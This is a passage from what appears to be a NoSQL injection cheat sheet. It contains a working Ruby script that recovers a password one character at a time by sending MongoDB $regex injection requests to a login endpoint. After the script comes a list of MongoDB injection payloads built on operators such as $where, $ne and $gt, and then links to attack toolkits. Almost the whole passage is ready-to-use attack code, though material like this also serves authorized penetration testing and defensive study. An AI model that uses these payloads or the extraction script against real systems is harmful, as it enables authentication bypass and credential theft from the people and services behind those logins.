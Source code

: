 ```ruby
password = ''
url = 'http://example.org/login'
# CHARSET = (?!..?~).to_a # all ASCII printable characters
CHARSET = [*'0'..'9',*'a'..'z','-'] # alphanumeric + '-'
GET_EXCLUDE = ['*','+','.','?','|', '#', '&', '$']
session = HTTPX.plugin(:persistent)

while true
  CHARSET.each do |c|
    unless GET_EXCLUDE.include?(c)
      payload = "?username=#{username}&password[$regex]=^#{password + c}"
      res = session.get(url + payload)
      if res.body.to_s.match?('Yeah')
        puts "Found one more char : #{password + c}"
        password += c
      end
    end
  end
end

```
## MongoDB Payloads
```html
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true

```

## Tools
* https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration
* https://github.com/C4l1b4n/NoSQL-Attack-Suite
